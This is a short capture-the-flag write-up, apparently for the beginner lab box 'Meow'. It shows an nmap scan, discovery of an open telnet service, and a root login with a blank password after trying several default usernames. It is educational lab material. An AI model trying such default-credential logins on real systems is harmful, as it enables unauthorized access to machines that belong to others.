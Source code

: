 # Box: Meow
Difficulty: Easy
OS: Linux

## 🧠 Recon
**Nmap Scan:**
```bash
sudo nmap -sV 10.10.14.12

## 🔍 Enumeration
Found an open port 23/tcp, running the telnet service

## 💥 Exploitation
Tried logging in with common usernames and no password:
admin — ❌
administrator — ❌
root — ✅ Success

Commands executed:
telnet 10.10.14.12
login: root
Password: [blank]
Gained shell access as root.

## 🔐 Privilege Escalation
Not required - root access via telnet

## 🧼 Cleanup & Lessons
N/A

